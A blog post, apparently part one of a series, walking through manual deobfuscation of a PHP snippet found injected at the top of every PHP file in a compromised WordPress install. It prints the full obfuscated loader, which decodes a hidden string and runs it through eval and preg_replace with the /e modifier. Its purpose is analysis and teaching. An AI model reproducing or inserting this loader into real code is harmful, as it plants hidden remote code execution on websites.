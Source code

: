 ```yaml
---
layout: post
title: "Manual deobfuscation of a PHP snippet - Part 1"
date: 2014-10-10 20:50:00 +0200
comments: true
categories: 
---
```


In late July the following question was posted on a IRC-channel i frequent: 

> Anyone care to devise what an obfuscated PHP payload does?

Sure, why not, sounds like a challenge. This is part 1 of a series of blogposts explaining the headache-inducing three hours that followed.

<!-- more -->

The following snippet had been added to the top of _every_ PHP file in a Wordpress installation. Scroll right to see it all. _Far_ _right_.
```php
<?php $fognhntadd = '825h>#]y31]278]y3e]81]K78:56985:6197g>2b%x5c%x7825!<*qp%x5c%x7825-*.%x5c%x7825)euh]341]88M4P8]37]278]225]241]334]368]322]3]364]6]283ldbqov>*ofmy%x5c%x7825)utjm!|!*5!%x5c%x7827!hmg%x5c%156%x61"])))) { $GLOBALS["%x61%156%x75%156%x61"]=1;5c%x7860un>qp%x5c%x7825!|Z~!<##!>!2p%x5c%x7825!|!*!f!}Z;^nbsbq%x5c%x7825%x5c%x785cSFWSFT%x5c%x7860%x5c%x7825%x5c%x7825!*9!%x5c%x7827!hmg%x5c%x7825b*[%x5c%x7825h!>!%x5c%x7825fmjgk4%x5c%x7860{6~6<tfs%x5c%x7825w6<%x5%x5c%x78e%x5c%x78b%x5c%x7825w:!>!%x5c%x78246767~6<Cw6<pd#K#-#L#-#M#-#[#-#Y#-#D#-#W#-#C#-#O#-#N#*%x5c%x7824%x5c%x78OJ%x5c%x7860GB)fubfsdXA%x5c%x7827K6<%x5c%x787f%x35%165%x3a%146%x21%76c%x785c1^-%x5c%x7825r%x5c%x785c2^-%x5c%x7825hOh%x]DgP5]D6#<%x5c%x7825fdy>#]D4]273]D6P2L5P6]y6gPpde:4:|:**#ppde#)tutjyf%x5c%x78604%x5c%x78223}!+!<+{e%x5c%x7825+*!X6<#o]o]Y%x5c%x78257;utpI#7>%x5c%x782f7%x5c%x78257-C)fepmqnjA%x5c%x78!>!2p%x5c%x7825Z<^2%x5c%x785c2b%x5c%x7825!>!2px7822)gj6<^#Y#%x5c%x785cq%x5c%A)3of>2bd%x5c%x7825!<5h%x5c%x7825%x5c%x782f#0#%x5c%x782f*#n2f%x5c%x7825kj:-!OVMM*<(<%x5c%x78e%x5c%x78b%x5c%x7825ggg!>!#]y81]27d}R;*msv%x5c%x7825)}.;%x5c%x7860UQPMSVD!-id%x5c%x7825)uqpuft%x55c%x7825t2w>#]y74]273]y76]2x5c%x7825)7gj6<**2qj%x5c%x7825)hopm3qjA)qj3hopmA%x5c%x78273w6*3qj%x5c%x78257>%x5c%x782272qj%:74985-rr.93e:5597f-s.973:8297f:5297e:56-%x5c%x7878r.985:%x5c%x7825c:>%x5c%x7825s:%x5c%x785c%x5c%x7825j:^<!%x5mmvo:>:iuhofm%x5c%x7825:-5p function fjfgg($n){return chr(ord(]317]445]212]445]43]321]464]284]364]6]234]342x5c%x7824-%x5c%x7824tvctus)%x5c%x7825%x5c%x7824-%x7825iN}#-!tussfw)%x5c%x7825c*W%x5c%x78%x782f#%x5c%x7825#%x5c%x782f#o]#%x5c%x782f*)323zbe!-#jt0*?]+^?]_%x*w%x5c%x7825)kV%x5c%x7878{**f%x5c%x786057ftbc%x5c%x787f!|!*uyfu%x5c%x7827k:!ftmx5c%x787f!>>%x5c%x7822!pd%x5c%x78254y]552]e7y]#>n%x5c%x7825<#372]58y]472]37y]672]48y]#>s%x5c%x7%x78e%x5c%x78b%x5c%x7825mm)x7825tpz!>!#]D6M7]K3#<%x5c%x7825yy>#]D6]281L1#%x5c%x782f#M5x78257>%x5c%x782f7&6|7**111127-K)ebfsX5c%x787fw6*CW&)7gj6<*K)ftpmdXA6~6<u%x5c%d%x5c%x7825)Rb%x5c%x7825))!gj!<*#cd2bge56+99386c6f+9f5d816:+946:ce25z!>2<!gps)%x5c%x7825j>1<%x5c%x7825j#)usbut%x5c%x7860cpV%x5c%x787f%x5c%n%x5c%x7825)utjm6<%x#-#}+;%x5c%x7825-qp%x5c%29%51%x29%73", NULL); }c%x7824gps)%x5c%x7825j>1<%x55c%x7827,*d%x5c%x7827,*c%x5c%x7827,*b%x5c%x7827)fepdof.)fepdof.%x5c%x75c%x7825tww**WYsboepn)%x5c%x7825bss-%x5c%x7825r%x5c%x7878B%x5c%x723ldfidk!~!<**qp%x5c%x7825!-uy82fh%x5c%x7825)n%x5c%x7825-#+I#)q%x5c%x7825:>:r%x5c%x7825:|:**t%x5c%x7825)!gj!|!*1?hmg%x5cx5c%x782f7#@#7%x5c%x782f7^#iubq#%x5c%x785cq%x5c%x7825%x5c%x7827jx5c%x785cq%x5c%x78257**^#zsfvr#%x5c%x785cq%x5c%x7825)ufttj%x5c%opo#>b%x5c%x7825!*##>x7825)fnbozcYufhA%x5c%x78272qj%x7825)ftpmdR6<*id%x5c%x7825)dfyfR%0hfsq)!sp!*#ojneb#-*f%x5c%x7825)sf%x5c%x787%x5c%x7860hA%x5c%x7827pd%x5c%x78256<pd%x5c%x7825w6Z6<.3%x5c%x7867825%x5c%x7824-%x5c%x7824!>!f%x21%50%x5c%x7825%x5c%x7878:!x7825)!gj!<2,*j%x5c%x7825-#1]#-bubE{h%x5c%x7825)tpqsut>j&Z&S{ftmfV%x5c%x787f<*XAZASV<*w%x5c%x7825)ppde>u%x5c%x7825V<#65,475c%x7860QIQ&f_UTPI%x5c%x7860QUUI&e_SEEB%x5c%x7860FUPtjw!>!#]y84]275]y83]248]y85tmw!>!#]y84]275]y83]273]y76]277#<%x824-%x5c%x7824%x5c%x785c%x5c%x7825j^%5)tpqsut>j%x5c%x7825!*72!%x5c%x7827!hmg%x5c%y3:]84#-!OVMM*<%x22%51%xc%x7860msvd},;uqpuft%x5c%x7860msvd}+%x5c%x7827u%x5c%x7825)7fc%x787f;!|!}{;)gj}l;33bq}k;opjudovg}%x5c%x7827tfs%x5c%x78256<*17-SFEBFI,6<*127-UVP5%x5c%x7860{66~6<&w6<%x5c%x787fw6*CW&)7gj6<*doj$n)-1);} @error_reporting(0); preg_replace("%x2f%50%x2e%52%|!*bubE{h%x5c%x7825)j{h782f35.)1%x5c%x782f14+9**-)1%x5c%x782f2986+7**^%x5c%x782ftuofuopd%x5c%x7860ufh%x5c%x7860fmjg}[;ldpt%x5c%x7825}K;%x5c%c%x7860hA%x5c%x7827pd%x5c%x78256<pd%x5c%x7825w6Z6<.4x7825>U<#16,47R57,27R66,#%x5c%x782fq%xisset($GLOBALS["%x61%156%x75x5c%x7824-%x5c%x7824<%x5c%x7825j,,*!|%x5c%x7824-%x5c%x7824gvodujpo!%x5c%x782%x5c%x7860bj+upcotn+qsvmt+fmhpph#)zbssb!-#}#)!>!{e%x5c%x7825)!>>%x5c%x7822!ftmbg)!gj<*#k%x782f%x5c%x7824)#P#-#Q#-#B#-#T#-#E#-#G#-#H#-#I#-]27]28y]#%x5c%x782fr%x5c%x7825%x5c%x77eu{66~67<&w6<*&7-#o]s]o]s]#)fepmqyf%x5c%x7827*&7-<!%x5c%x7825o:!>!%x5c%x78:]268]y7f#<!%x5c%x7825tww!>!%x5c%x782400~:<h%x5c%x7825_t%x5c%x7825:osv%x7825):fmji%x5c%x7878%x5c%x7825r%x5c%x7878<~!!%x5c%x7825s:N"%x6f%142%x5f%163%x74%141%x72%164") && (!]y81]273]y76]258]y6g]273]y76]271]y7d]252]y74]256#us%x5c%x7860sfqmbdf)%x5c%x7825%x5c%mji%x5c%x78786<C%x5c%x7827&6<*rfs%x5c%x78257-K)fujs%x5c%x7878<.[A%x5c%x7827&6<%x5c%x787fw6*%x5c%x787f_*#[k2%x5c]y6g]273]y76]271]y7d]252]y74]256]y39]252]y83]273]y72]282#<!%x5c%x78257L6M7]D4]275]D:M8]Df#<%25>j%x5c%x7825!<**3-j%x5c%x7825-bubE{h%x5c%x7825)sutcvt-#w#)]58]24]31#-%x5c%x7825tdz*Wsfuvso!%x5c%x7825bss%x5c%x785csboe))1%x5c%xc%x7824-tusqpt)%x5c%x7825z-#:#*%x5c%x7824-%x5c%x7824!>!tFNJU,6<*27-SFGTOBSUOSVUFS,6<*msv%x5c%x78257-MSV,6<*)ujojR%x5c%x7%x7825)!gj!<**2-4-bubE{h%x5c%x7825)sutcvt)esp>hm827{**u%x5c%x7825-#jt0}Z;0]=]0#)2q%x5c%x7825l}S;2-u%x5c%x7825!-#2#%x5cx7825%x5c%x7827Y%x5c%x7825652]y85]256]y6g]257]y86]267]y74]275]y725eN+#Qi%x5c%x785c1^W%x5c%x7825c!>!%x5c%x7825i%x5c%x785c2^<!Ce*[!%x5tdz)%x5c%x7825bbT-%x5c%x7825bT-%x5c%x7825hW~%x5c}X;!sp!*#opo#>>}R;msv}.;}V;3q%x5c%x7825}U;y]}R;2]},;osvufs}%x5c%x7827;mnui}&;zepc}A;~!}%x5%x5c%x7825ww2)%x5c%x7825w%x5c%x7860TW~%x5c%x7824<%x5c<.msv%x5c%x7860ftsbqA7>q%x5c%x78256<%x5c%x787fw6*%x5c%x787f_*#fubfsdXk]y81]265]y72]254]y76]61]yh%x5c%x7825!<*::::::-111112)eobs%xnpd!opjudovg!|!**#j{hnpd#)tutj%162%x61%171%x5f%155%x61%160%x28%42%x66%152%x66%147%x67%42%xc%x7860MPT7-NBFSUT%x5c%x7860LDPT7-UF7825)3of:opjudovg<~%x5c%x78245]K2]285]Ke]53Ld]53]Kc]55Ld]551%x6d%160%x6c%157%x64%145%x28%141%x72NFS&d_SFSFGFS%x5c%x7860QUUI&c_UOFHB%x5c%x7860SFTV%x5c%x7860QUU#k#)tutjyf%x5c%x7860%x5c%x7878%x5c%x7822l:!]y4:]82]y3:]62]y4c#<!%x5c%x7825t::!>!%!%x5c%x7825b:>%x5c%x7825s:%x5c%x785c%x5c%x7825j:.2^,%x5c%x7825b:<!27&6<.fmjgA%x5c%x7827doj%x5c%x78256<%x5c%x787fw6*%x5c%x787f_*#5#*<%x5c%x7825bG9}:}.}-}!#*<%x5c%x7825nfd>%x5c%x7825fdy<C787f;!opjudovg}k~~9{d%x5c%x7825:osvufs:~928>>%x5c%x73]256]y81]265]y72]254]y76#<%x5c%x782x7825)54l}%x5c%x7827;%x5c%x7825!<*#}_;#)323ldfid>}&;!osvufs}%x5c%xrfs%x5c%x78256<#o]1%x5c%x782f20QUUI7jsv%x5c%x782tutjyf%x5c%x7860opjudovg)!gj!|!*msv%x5c%x7825)}k~~~<ftmbg!osvufs!|ftm8984:71]K9]77]D4]82]K6]72]K9]78]K5]53]Kc#<%x5c%>#]y3g]61]y3f]63]y3:]68]y76#<jepdoF.uofuopD#)sfebfI{jg!)%x5c%x7825z>>2*!%x5I&b%x5c%x7825!|!*)323zbek!~!<b%x5c%x7825%x5c%x787f!<X>b%x5c%x7825Z<#822:ftmbg39*56A:>:8:|:7#6#)tutjyf%x5c%x7860439275ttfsqnpdov{htussfw)%x5c%x7825zW%x5c%x7825h>EzH,2W%x5c%x782%x7825)m%x5c%x7825=*h%x5c%x7825)m%x5cx7825!<***f%x5c%x7827,*e%xufs:~:<*9-1-r%x5c%x7825)s%x5c%x825<#462]47y]252]18y]#>q%x5c%x7825<#762]67y]562]y31M6]y3e]81#%x5c%x782f#7e:55946-tr.984:75983:4>X)!gjZ<#opo#>b%x5c%x7825!**1y]c9y]g2y]#>>*4-1-bubE{h%x5c%x7825)sutcvt)!gj!qj%x5c%x78256<*Y%x5c%c%x7825cIjQeTQcOc%x5c%x782f#00#W~!Ydrr)%x5c%x7825r%x5c%x7878Bsfuvs57UFH#%x5c%x7827rfs%x5c%x78256~6<%x5c%x787fw6<*K)ftpm8pmpusut)tpqssutRe%x5c%x7825)Rc%x7825z>3<!fmtf!%x5c%x7825z>2<!c%x787fw6*CWtfs%x5c%x7825)7gj6<*id%x5c%x5c%x7824Ypp3)%x5c%x7825cB%x5cvodujpo)##-!#~<#%x5c%x782f%x5c%x%x5c%x7825w6Z6<.5%x5}#-%x5c%x7825o:W%x5c%x7825c:>1<%x5c%x7825b:>1<!gps)%x5c%x78254-%x5c%x7824y7%x5c%x7824-%x5c%x7824*<!%x5c%x7824-%x5x5c%x7878;0]=])0#)U!%x5c%x7fu%x5c%x7825)3of)fepdo%x5c%x7825!*3>?*2b%x5c%x7825)gpf{jt)!gj!<*2bd%x5c%x7>q%x5c%x7825V<*#fopoV;ho0hA%x5c%x7827pd%x5c%x78256<pd%x5c%x7825w6Z6<.2%x5c%x7861]y35]256]y76]72]y3d]51]y35]274dXA6|7**197-2qj%x5c%x78257-K)udfoopdXA%x5c%x7822)7gj6<*QDU%x5f!~<**9.-j%x5c%x7825-bubE{h%x5c%x7825)sutcvt)fubmgoj{hA!o0hA%x5c%x7827pd%x5c%x78256<C%x5c%x7827pd%x5c%x78256|6.=6[%x5c%x7825ww2!>#p#%x5c%x782f#p#%x5c%x782f%x5c%x7825z<if((function_exists(x5c%x78256<^#zsfvr#%x5c%x785cq%x5c%x78257%x69%164%50%x22%134%x78%62***b%x5c%x7825)sf%x5c%x7878pmpusut!38y]572]48y]#>m%x5c%x7825:|:*r%x5c%x7825:-t%x5c%x827id%x5c%x78256<%x5c%x787fw6*%x5c%x787f_*#ujojRk3%x5c%x7860{6R25,d7R17,67R37,#%x5c%x782fq%x5c%82f#@#%x5c%x782fqp%x5c%x7825>5o!sboepn)%x5c%x7825epnbss-%x5c%x7825r%x5c%x7878W~x7860ufldpt}X;%x5c%x7860msv%x5c%x782f#%x5c%x782f#%x5c%x782f},;x29%57%x65","%x65%166%x61%154%x28%1%x5c%x7824b!>!%x5c%x7825yy)#}#-#%x5c%x7824-%x552985-t.98]K4]65]D8]86]y31]278]y3f]51L3]84])!gj}Z;h!opjudovg}{;#)sv%x5c%x78256<C>^#zsfvr#%5c%x785c}X%x5c%x7824<!%x5c%x7825tzw>!#]y76]277]y72]265]y39]274]y85]273x5c%x7825tdz>#L4]275L3]248L3P6L1M5]D2P4]D6#<%x5c%x7825G]y6d]281Ld]24%x7860{6:!}7;!}6;##}C;!>>!}W;utpi}Y;5wN;#-Ez-1H*WCw*[!%x5c%x7825rN}#QwTW%x5c%x7825hIr%x5yqmpef)#%x5c%x7824*<!%x5c%x7825kj:!>!#]y3d]52c%163%x74%162%x5f%163%x70%154%3]y76]258]y6g]273]y76]271]y7d]252]y74]256#<!%x5c%x7825ggg)(0)%x%x7825j:>>1*!%x5c%x7825b:>1<!fmtf19275j{hnpd19275fubmgoj{h1:|:*7825>%x5c%x782fh%x5c%x7825:<pd%x5c%x782f#)rrd%x5c%x782f#00;quui#>.%x5c%svufs!~<3,j%x5c%x7825>j%x5c%x7825!*3!%x5c%x7827!hmg%x5c%x7825!)!gj!<g%x5c%x7825!<12>j%x5c%x7825!|!*#95c%x782f+*0f(-!#]y76]277]y72]265]y39]271]y83]256]y78]248]y83]2565%x5c%x7824-%x5c%x7824*!|!%x5c%x744#)zbssb!>!ssbnpe_GMFT%x)!gj!~<ofmy%x5c%x7825,3,j%x5c%x78<!%x5c%x7825ff2!>!bssbz)%x5c%x7824]25%x5c%x7824-%x5c%x7824-!%x5c%x782c%x7825j=tj{fpg)%x5c%x7825%x5c%x7824-%x5c%x7824*<!~!dsfbuf%x5c%x7860gj:>1<%x5c%x7825j:=tj{fpg)%x5c%x7825s:*<%x5c%x7825j:,,Bjg!)%x5c]427]36]373P6]36]73]83]238M7]381]211M5]67]452]88]5]48]32M3yf%x5c%x7860opjudovg%x5c%x7822)!gj}1~!<2p%x5c%x7825%x5c%x787f!~!<##5c%x782f#00#W~!%x5c%x7825t2w)##Qtjw)#]82#-#!#-%x5c%x7825tmw)%x33]68]y34]68]y33]65]y31]53]y6d]281]y43]78]y33]65]y31]55]y85]82]y76]62]-#j0#!%x5c%x782f!**#sfmcnbs+yfeobz+sfwjidsb2,*j%x5c%x7825!-#1]#-bubE{h%x5c%x782:<##:>:h%x5c%x7825:<#6**#57]38y]47]67y]37]88y5c%x7825>2q%x5c%x7825<#g6R85,67R37,18R#%x5c%x7825%x5c%x7878:-!%x5c%x7825tzw%x5c%x7825fdy)##-!#~<%x5c%x7825h00#*<%x5c%x7825nfd)##Qtpz)#x7824-%x5c%x7824y4%x5c%x7824-%x5c%x7824]y8%x5c%x7824-%x5c%x7824]26%242178}527}88:}334}472%x5c%x7824<!%x5c%x7825mm!>!#66~6<&w6<%x5c%x787fw6*CW&)7gj6fepmqnj!%x5c%x782f!#0#)idubn%x5c%x786c%x7825w%x5c%x7860%x5c%x785c^>Ew:Qb:Qc:W~!%x5c%x78X)ufttj%x5c%x7822)gj!|!*nbsbq%x5c%x7825)3!Ypp2)%x5c%x7825zB%x5c%x7825z>!*+fepdfe{h+{d%x5c%x7825)+opjudovg+)!gj+{e%x5c%x7825!osvufs!*!+A;!>!}%x5c%x7827;!>>>!}_;gvc%x5c%x7825}&;ftmbg}%x5c%x787f;!osvufs}w;*%825-#1GO%x5c%x7822#)fepmqyfAx787f%x5c%x787f%x5c%x787f<u%x5c%x7825V%x5c%x7827{ftmfV%x5c%x787f<*X/(.*)/epreg_replacempfqsmkdas'; $sjeykdhzzn = explode(chr((238-194)),'7526,20,4122,41,3639,28,183,52,1382,35,3350,59,7933,35,5453,38,5299,60,8374,31,7588,25,608,23,2791,29,6137,29,448,56,6954,20,3549,52,2698,64,7212,55,7416,54,3917,50,2092,20,1914,40,1876,38,3197,24,4247,61,792,39,5973,48,6738,53,7298,61,5359,36,562,46,1212,33,1153,59,6651,21,2590,31,7546,42,2442,64,8079,25,2506,63,907,30,4817,27,5140,70,3303,47,831,30,5700,62,408,40,6853,39,2621,34,3258,45,4635,64,7697,62,9690,30,4308,50,8242,36,3489,60,7871,27,1063,63,3161,36,9942,69,1695,35,8057,22,6021,69,7359,57,8602,68,9358,36,3093,44,2820,56,343,38,8825,33,4450,60,132,51,2419,23,4699,48,8670,33,6604,47,3409,23,5269,30,9116,67,861,46,7136,52,10011,28,37,45,937,59,8559,43,6424,26,2187,70,7792,30,5235,34,235,51,7613,35,9315,43,3743,45,9720,37,2655,43,6791,30,1954,66,8800,25,2942,52,5491,62,6212,68,2569,21,6576,28,9807,41,2322,30,7114,22,1644,51,286,57,4997,24,7898,35,2112,24,5907,66,5819,52,6280,61,8501,30,1355,27,726,66,9879,63,3788,43,2057,35,10039,67,2876,66,7759,33,3601,38,9439,39,7188,24,6166,23,1616,28,5553,43,5021,66,3221,37,7087,27,4747,70,1550,66,8104,70,4358,69,2994,26,5871,36,3020,36,1126,27,4844,37,3992,70,6450,31,8531,28,9416,23,3880,37,2352,67,6387,37,4062,22,9394,22,1730,60,6481,48,7648,49,5395,29,3967,25,9640,50,4163,49,8858,69,8767,33,3056,37,1462,48,7968,46,4579,56,4212,35,9573,67,3667,26,3693,50,7035,52,2159,28,8927,69,6922,32,2762,29,8330,44,7267,31,5596,38,6892,30,1510,40,4881,68,6672,66,7822,49,9848,31,6341,46,8278,52,631,49,9183,62,2257,65,0,37,1245,57,8014,43,6529,47,6090,47,1817,59,680,46,4427,23,8174,68,5424,29,5762,57,381,27,4949,48,9518,55,82,50,9058,58,1417,45,4510,69,3432,57,4084,38,6974,61,8996,62,8468,33,5634,66,1302,53,9757,50,2020,37,7470,56,6189,23,6821,32,5087,53,1790,27,9478,40,3831,49,504,58,996,67,8405,63,8703,64,5210,25,9245,70,3137,24,2136,23'); $jekjvzbupt=substr($fognhntadd,(67419-57313),(30-23)); if (!function_exists('otmxvqaaam')) { function otmxvqaaam($kruvavlbfw, $tmpdlccpfv) { $knpzekviot = NULL; for($mektnikgre=0;$mektnikgre<(sizeof($kruvavlbfw)/2);$mektnikgre++) { $knpzekviot .= substr($tmpdlccpfv, $kruvavlbfw[($mektnikgre*2)],$kruvavlbfw[($mektnikgre*2)+1]); } return $knpzekviot; };} $wrewusbqxp="\x20\57\x2a\40\x67\172\x6d\143\x69\170\x72\146\x69\146\x20\52\x2f\40\x65\166\x61\154\x28\163\x74\162\x5f\162\x65\160\x6c\141\x63\145\x28\143\x68\162\x28\50\x31\70\x33\55\x31\64\x36\51\x29\54\x20\143\x68\162\x28\50\x33\66\x31\55\x32\66\x39\51\x29\54\x20\157\x74\155\x78\166\x71\141\x61\141\x6d\50\x24\163\x6a\145\x79\153\x64\150\x7a\172\x6e\54\x24\146\x6f\147\x6e\150\x6e\164\x61\144\x64\51\x29\51\x3b\40\x2f\52\x20\151\x61\153\x78\144\x62\143\x6b\156\x72\40\x2a\57\x20"; $flwwfkzecg=substr($fognhntadd,(50154-40041),(83-71)); $flwwfkzecg($jekjvzbupt, $wrewusbqxp, NULL); $flwwfkzecg=$wrewusbqxp; $flwwfkzecg=(419-298); $fognhntadd=$flwwfkzecg-1; ?>
```

After adding some newlines and replacing some strings with placeholders we can read the code without pondering our political stance.

{% include_code lang:php deobfuscate_php/obfuscated_2.php.txt %}

Let's see if we can make the code a bit more readable:

The ```$fognhntadd``` on line 1 is not code to be executed, but is there to be used by the rest of the code. We can't really make it more readable at this point. 

 ```$sjeykdhzzn``` on line four appears to split its second argument on ```chr((238-194))```. [chr](http://php.net/manual/en/function.chr.php) returns a one-character string containing the character specified by the decimal argument. ```chr(238-194) = chr(44)```, and a quick look in ```man ascii``` tells us that the ASCII character with a decimal value of 44 is , (comma). This means ```$sjeykdhzzn``` will evaluate to an array consisting of 456 (0-455) numbers, every other large (1000+) and small(<50). 

 ```$jekjvzbupt``` on line 9 is a [substring](http://php.net/manual/en/function.substr.php) of the horribly long ```$fognhntadd``` - but how to know what without counting to 10106? (67419-57313=10106).

The code does not appear to to anything dangerious, so let's try to parse it using a PHP engine! *google "run php code online"*. The second result, [sandbox.onlinephpfunctions.com](http://sandbox.onlinephpfunctions.com/) looks promising.

Pasting in ```$fognhntadd```, ```$jekjvzbupt``` and a [var_dump](http://php.net/manual/en/function.var-dump.php), tells us that ```$jekjvzbupt``` evaluates to the string ```/(.*)/e```. While i didn't know at the time, if this string is used in [preg_replace](http://php.net/manual/en/function.preg-replace.php) on a system using PHP prior to 5.5.x, it is basically the same as [eval](http://php.net/manual/en/function.eval.php).

We will skip the function ```otmxvqaaam``` for now.

The escaped string ```$wrewusbqxp``` get the same treatment, and returns the following code:

```
 /* gzmcixrfif */ eval(str_replace(chr((183-146)), chr((361-269)), otmxvqaaam($sjeykdhzzn,$fognhntadd))); /* iakxdbcknr */ 
```

 ```$flwwfkzecg``` evaluates to ```preg_replace```, why am i not surprised?

Line 26 uses ```$flwwfkzecg``` as a function name, and can thus be written like this:

```php
preg_replace('/(.*)/e', 'eval(str_replace(chr((183-146)), chr((361-269)), otmxvqaaam($sjeykdhzzn,$fognhntadd)));', NULL);
```

This can also be written like this, reusing the techniques used above:

```php
$foo = otmxvqaaam($sjeykdhzzn, $fognhntadd);
$bar = str_replace('%', '\\', $foo); # '\\' => \
eval($bar);
```

Suddenly understanding the function ```otmxvqaaam``` defined on line 12 becomes interesting. After renaming some of the variables, the function becomes somewhat easier to read. 

```php
function otmxvqaaam($start_and_length_array, $string) {
	$return_value = NULL; 
	for ($i=0; $i < (sizeof($start_and_length)/2); $i++) {
		$start = $start_and_length_array[($i*2)]
		$length = $start_and_length_array[($i*2)+1]
		$return_value .= substr($string, $start, $length); 
	} 
	return $return_value; 
};
```

This function uses ```$start_and_length_array``` together with ```substr``` as a [grille](http://en.wikipedia.org/wiki/Cardan_grille). The even number positions(0,2,4...) of the array are the positions in the ciphertext, while the odd (1,3,5...) positions are the lengths.

I concluded that the last three lines did nothing that was worth analyzing. We now have enough data to make the code easier to read.

{% include_code lang:php deobfuscate_php/obfuscated_3.php.txt %}

Since the code up to this point does nothing active (exec, system, fwrite, ...), we can replace ```eval``` with echo in our code, and get the following result:

{% include_code lang:php deobfuscate_php/obfuscated_4.php.txt %}

Oh joy! Another layer of obfuscation. I can't wait for part 2!
